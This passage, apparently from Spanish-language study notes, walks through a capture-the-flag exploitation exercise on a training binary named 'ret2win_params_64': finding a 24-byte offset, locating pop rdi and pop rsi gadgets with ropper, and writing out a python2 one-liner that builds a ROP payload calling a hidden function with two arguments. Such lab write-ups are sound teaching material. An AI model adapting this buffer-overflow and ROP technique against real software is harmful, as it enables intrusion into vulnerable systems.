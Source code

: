 Si nos fijamos, el puntero de instrucción (`RIP`) no ha cambiado, ya que si tratamos de introducir una dirección de memoria inválida no la aceptará. Por eso, debemos insertar los valores en el puntero de pila (`RSP`), para encontrar el *offset* tomamos los primeros 4 valores y volvemos a utilizar *cyclic*:

```bash
cyclic -l gaaa
```
```cyclic
24
```


### Explotación

Vamos a construir ahora nuestro *payload* que tendrá la siguiente estructura:

```
PADDING (24) + pop_rdi + param_1 + pop_rsi + param_2 + hacked
```

De esta forma, cargaremos en el *stack* dos instrucciones que guardarán en los registros correspondientes los argumentos de la función y la propia llamada a la función.

Para encontrar *pop_rdi* y *pop_rsi* (las instrucciones que guardarán los argumentos en sus correspondientes registros), debemos utilizar [[ropper]]:

```bash
ropper --file ret2win_params_64 --search "pop rdi"
```
```ropper
0x000000000040124b: pop rdi; ret;
```

```bash
ropper --file ret2win_params_64 --search "pop rsi"
```
```ropper
0x0000000000401249: pop rsi; pop r15; ret;
```

No tenemos `pop rsi` como tal, pero tenemos `pop rsi; pop r15`, así que tendremos que añadir un valor *basura* para que se guarde en `r15`. Así que el *payload* pasaría a tener la siguiente estructura:

```
PADDING (24) + pop_rdi + param_1 + pop_rsi_r15 + param_2 + basura + hacked
```

Sacando la dirección de *hacked* de [[gdb]]-[[pwndbg]] (`disassemble hacked`) y los parámetros del código fuente (codificados *LSB*), el comando para generar el *payload* con python2 quedaría:

```bash
python2 -c 'print "A"*24 + "\x4b\x12\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\x49\x12\x40\x00\x00\x00\x00\x00" + "\xbe\xba\xde\xc0\xbe\xba\xde\xc0" + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x42\x11\x40\x00\x00\x00\x00\x00"' > payload
```

Si ejecutamos el binario pasando el *payload*:

```bash
./ret2win_params_64 < payload
```
```ret2win_params_64
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAK@
This function is TOP SECRET! How did you get in here?! :O
[1]    24118 segmentation fault  ./ret2win_params_64 < payload
```

Y ya habríamos resuelto el ejercicio!